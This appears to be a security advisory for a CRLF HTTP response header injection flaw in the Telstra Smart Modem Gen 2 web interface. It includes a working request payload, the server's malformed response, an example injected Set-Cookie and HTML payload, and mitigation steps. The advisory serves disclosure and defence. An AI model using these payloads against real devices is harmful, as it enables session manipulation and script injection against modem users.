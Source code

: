 # Telstra-RHI
A vulnerability was recently discovered in the HTTP(S) remote access webpage for the Telstra Smart Modem Gen 2. This vulnerability allows for unauthenticated HTTP Response Header Injection, giving attackers the ability to manipulate HTTP headers and potentially inject malicious payloads into server responses. The issue is caused by user-supplied data being unsafely copied into the Content-Disposition response header without proper validation or sanitization. The vulnerability was demonstrated by sending a specially crafted HTTP GET request to the server, targeting the robots.txt resource with a malicious payload embedded in the URL path:<br/>

"""<br/>
GET /robots.txtcy4y9%0d%0ai3o0z HTTP/1.1<br/>
Host: *.***.**.***<br/>
Accept-Encoding: gzip, deflate, br<br/>
Accept: */*<br/>
Accept-Language: en-US;q=0.9,en;q=0.8<br/>
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36<br/>
Connection: close<br/>
Cache-Control: max-age=0<br/>
"""<br/>

This request appends the payload 'cy4y9%0d%0ai3o0z' to the resource path in the URL. The %0d%0a sequence breaks out of the expected header structure, allowing for the injection of new headers or manipulation of the response body. The server then processed the request and returned the following malformed response:<br/>

"""<br/>
HTTP/1.1 302 Found<br/>
Server: nginx/1.15.10<br/>
Date: Mon, 13 Jan 2025 04:30:25 GMT<br/>
Content-Type: text/html<br/>
Content-Length: 0<br/>
Connection: close<br/>
Content-Disposition: attachment; filename=robots.txtcy4y9<br/>
i3o0z: <br/>
Location: /relogin.htm<br/>
X-XSS-Protection: 1; mode=block<br/>
X-Content-Type-Options: nosniff<br/>
X-Permitted-Cross-Domain-Policies: none<br/>
X-Frame-Options: SAMEORIGIN<br/>
Access-Control-Allow-Origin: http://mymodem.gateway:85<br/>
"""<br/>

In this response, the Content-Disposition header is constructed with the user-supplied value robots.txtcy4y9, but the %0d%0a sequence terminates this header prematurely. This results in the creation of a new, invalid header: 'i3o0z:'. By including additional payloads beyond the %0d%0a, an attacker could inject arbitrary HTTP headers or even initiate the response body with crafted content. For example, inserting %0d%0aSet-Cookie: sessionid=malicious%0d%0a%0d%0a<html> could set a malicious cookie and inject HTML or JavaScript into the response body.

Attempts have been made to contact Telstra Support about this vulnerability, however no reply was received.<br/>
Strategies to mitigate this vulnerability have been listed below:
- Confirm that all user-supplied input is sanitized before being incorporated into HTTP headers.
- Reject all input that contains control characters or other unsafe combinations.
- Encode user input to neutralize special characters before including it in headers.
